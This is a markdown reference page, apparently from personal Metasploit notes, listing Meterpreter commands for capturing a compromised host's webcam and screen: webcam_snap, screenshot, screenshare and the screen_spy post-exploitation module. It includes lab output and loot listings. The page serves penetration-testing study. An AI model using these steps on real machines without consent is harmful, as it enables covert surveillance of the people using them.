 # 06 - WireTap

Search Tag(s): #metasploit-framework #command-and-control #interactive-shell

TODO: Fill this info

## 6.1 - Webcam

### 6.1.1 - Help Menu

```
meterpreter > webcam_snap -h
```

```
meterpreter > webcam_stream -h
```

- List webcams

`meterpreter > webcam_list`

- Taking snapshots from a webcam

`meterpreter > webcam_snap -i <device_ID> -p /path/to/file.png`

## 6.2 - Screenshots

1. Screenshot
 
```
meterpreter > screenshot -h
Usage: screenshot [options]

Grab a screenshot of the current interactive desktop.

OPTIONS:

    -h   Help Banner.
    -p   The JPEG image path (Default: 'jevmzGjE.jpeg')
    -q   The JPEG image quality (Default: '50')
    -v   Automatically view the JPEG image (Default: 'false')

meterpreter > screenshot -p /home/user/pic.jpeg -q 100
```

2. Screenshare

```
meterpreter > screenshare -h
Usage: screenshare [options]

View the current interactive desktop in real time.

OPTIONS:

    -d   The stream duration in seconds (Default: 1800)
    -h   Help Banner.
    -q   The JPEG image quality (Default: '50')
    -s   The stream file path (Default: 'FteINQtk.jpeg')
    -t   The stream player path (Default: tFLOibzd.html)
    -v   Automatically view the stream (Default: 'true')

meterpreter > screenshare
[*] Preparing player...
[*] Opening player at: /home/user/CTslvACC.html
[*] Streaming...
```

`meterpreter > run post/multi/manage/screenshare`

3. `screen_spy` post exploitation module

```
msf exploit(multi/handler) > use post/windows/gather/screen_spy

msf post(windows/gather/screen_spy) > options

Module options (post/windows/gather/screen_spy):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   COUNT             6                yes       Number of screenshots to collect
   DELAY             5                yes       Interval between screenshots in seconds
   PID                                no        PID to migrate into before taking the screenshots
   RECORD            true             yes       Record all screenshots to disk by saving them to loot
   SESSION                            yes       The session to run this module on
   VIEW_SCREENSHOTS  false            no        View screenshots automatically

msf post(windows/gather/screen_spy) > set count <int>

msf post(windows/gather/screen_spy) > set delay <seconds>

msf post(windows/gather/screen_spy) > set record true

msf post(windows/gather/screen_spy) > set view_screenshots <false | true>

msf post(windows/gather/screen_spy) > set pid [pid]

msf post(windows/gather/screen_spy) > set session <session_id>

msf post(windows/gather/screen_spy) > run
```

Check the screenshots stored in the loot.

```
meterpreter > run post/windows/gather/screen_spy

[*] Capturing 6 screenshots with a delay of 5 seconds
[*] Screen Spying Complete
[*] run loot -t screenspy.screenshot to see file locations of your newly acquired loot

meterpreter > background
[*] Backgrounding session 1...

msf post(windows/gather/screen_spy) > loot -S screenspy.screenshot

Loot
====

host       service  type                  name              content    info        path
----       -------  ----                  ----              -------    ----        ----
10.0.2.15           screenspy.screenshot  screenshot.0.jpg  image/jpg  Screenshot  /root/.msf4/loot/20220515200113_default_10.0.2.15_screenspy.screen_984207.jpg
10.0.2.15           screenspy.screenshot  screenshot.1.jpg  image/jpg  Screenshot  /root/.msf4/loot/20220515200118_default_10.0.2.15_screenspy.screen_091374.jpg
10.0.2.15           screenspy.screenshot  screenshot.2.jpg  image/jpg  Screenshot  /root/.msf4/loot/20220515200123_default_10.0.2.15_screenspy.screen_996060.jpg
10.0.2.15           screenspy.screenshot  screenshot.3.jpg  image/jpg  Screenshot  /root/.msf4/loot/20220515200128_default_10.0.2.15_screenspy.screen_330156.jpg
10.0.2.15           screenspy.screenshot  screenshot.4.jpg  image/jpg  Screenshot  /root/.msf4/loot/20220515200141_default_10.0.2.15_screenspy.screen_723895.jpg
10.0.2.15           screenspy.screenshot  screenshot.5.jpg  image/jpg  Screenshot  /root/.msf4/loot/20220515200153_default_10.0.2.15_screenspy.screen_495403.jpg
```

---
## References

- [Rapid7: Metasploit Framework Screenshare Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/multi/manage/screenshare.md)